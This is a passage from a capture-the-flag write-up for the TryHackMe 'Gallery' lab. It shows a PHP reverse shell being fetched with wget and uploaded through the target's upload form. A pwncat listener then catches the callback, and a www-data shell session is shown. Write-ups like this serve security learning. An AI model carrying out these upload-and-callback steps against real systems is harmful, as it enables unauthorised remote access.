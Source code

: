 ![upload](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gallery/upload.png)
Let's click on browse, and upload a `php reverse shell`. I'll use a php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
```
┌──(root💀nam)-[~/thm/ctf/Gallery]
└─# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Modify your listener IP address and port.
Setup a listener, I'll use [`pwncat`](https://github.com/calebstewart/pwncat) to upgrade and stable the reverse shell automatically.(Tips. Hit `Ctrl+D` to switch between remote and local)
```
┌──(root💀nam)-[~/thm/ctf/Gallery]
└─# pwncat-cs -l 10.2.119.204 4444                                                                     
[06:12:21] Welcome to pwncat 🐈!                                                                          __main__.py:164
[06:12:44] received connection from 10.10.147.19:57072                                                         bind.py:84
[06:12:49] 10.2.119.204:4444: upgrading from /bin/dash to /bin/bash                                        manager.py:957
[06:12:51] 10.10.147.19:57072: registered new host w/ db                                                   manager.py:957
(local) pwncat$                                                                                                          
(remote) www-data@gallery:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
